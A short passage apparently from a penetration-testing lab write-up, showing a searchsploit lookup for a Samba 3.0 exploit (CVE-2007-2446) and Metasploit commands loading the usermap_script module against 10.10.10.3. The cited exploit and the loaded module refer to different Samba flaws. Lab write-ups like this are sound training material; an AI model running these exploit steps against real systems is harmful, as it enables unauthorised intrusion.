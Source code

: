 **Exploit Code:**

Reference: *https://www.exploit-db.com/exploits/16859*
EDB-ID: 16859
CVE-2007-2446 
 
 
 Searching for exploit code:
 
 ```bash
 searchsploit samba 3.0
 ```
 
 Output:
 
 ```bash
 Samba 3.0.24 (Linux) - 'lsa_io_trans_names'  | linux/remote/16859.rb
 ```
 
 
  Metasploit Console Setup:
  
 
 ```txt
 search samba 3.0
 use exploit/multi/samba/usermap_script
 set RHOSTS 10.10.10.3
 ```
 
 ![msfconsole options](screenshots-storage/msf_options.png)
